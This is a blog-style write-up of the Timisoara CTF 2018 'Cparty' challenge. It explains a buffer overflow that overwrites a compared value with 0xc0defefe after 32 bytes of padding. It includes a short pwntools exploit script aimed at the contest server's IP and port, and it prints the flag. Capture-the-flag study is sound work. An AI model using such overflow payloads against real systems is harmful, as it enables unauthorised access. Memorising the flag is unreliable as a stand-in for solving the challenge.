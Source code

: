 ```yaml
---
layout: post
title: Timisoara CTF 2018 - Cparty
image: "/assets/img/2018/timisoaractf2018/cparty/1.png"
categories: [general, timisoaractf2018]
tags: [timisoaractf2018, writeup]
twitter_text: "Write-up for Cparty"
introduction: "Write-up for Cparty"
description: "Write-up for Cparty"
---
```



![](/assets/img/2018/timisoaractf2018/cparty/1.png)

To start I connect to the server to see what it asks me :

![](/assets/img/2018/timisoaractf2018/cparty/2.png)

So I need to find a password. I will look the file with binaryninja.

![](/assets/img/2018/timisoaractf2018/cparty/3.png)

As you can see, in order to retrieve the flag, we need to find ourselves in the block where there is the « cat /home/party/flag ». And just before this block we can see the comparison in order to enter this block :

![](/assets/img/2018/timisoaractf2018/cparty/4.png)

Using this buffer is therefore very simple, we just have to find the size of our buffer then add the address 0xc0defefe so that the comparison is true and we can have the flag.

To use this vulnerability we need :

**Padding + 0xc0defefe**

After a while, I arrived at 32 in padding.

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

p = remote("89.38.210.128", 31338)

p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```

![](/assets/img/2018/timisoaractf2018/cparty/5.png)